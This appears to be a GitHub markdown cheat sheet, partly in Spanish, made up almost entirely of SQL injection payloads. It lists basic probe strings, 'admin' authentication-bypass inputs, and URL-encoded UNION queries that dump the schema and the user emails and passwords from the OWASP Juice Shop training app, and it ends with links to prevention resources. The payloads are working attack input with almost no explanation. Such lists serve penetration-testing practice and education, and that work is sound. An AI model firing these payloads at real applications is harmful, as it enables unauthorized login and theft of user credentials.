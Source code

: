 # SQL Inject Basic Payloads
```
'
' --
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

Comentarios:

#
/*
-- -
;%00
`
```
# SQL Inject Bypass de Auth
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
admin' or 1=1
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
# SQL Inject Extract Schema Database Juice-Shop
```
')

'))%20--%2

'))%20order%20by%209%20--%20

'))%20union%20all%20select%201,2,3,4,5,6,7,8,9%20--%20

'))%20union%20all%20select%201,2,3,sql,5,6,7,8,9%20from%20sqlite_master%20--%20

'))%20union%20all%20select%201,email,username,4,password,6,7,8,9%20from%20Users%20--%20
```
## Links

https://www.w3schools.com/sql/sql_injection.asp

https://github.com/gui1535/sql-injection-list

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
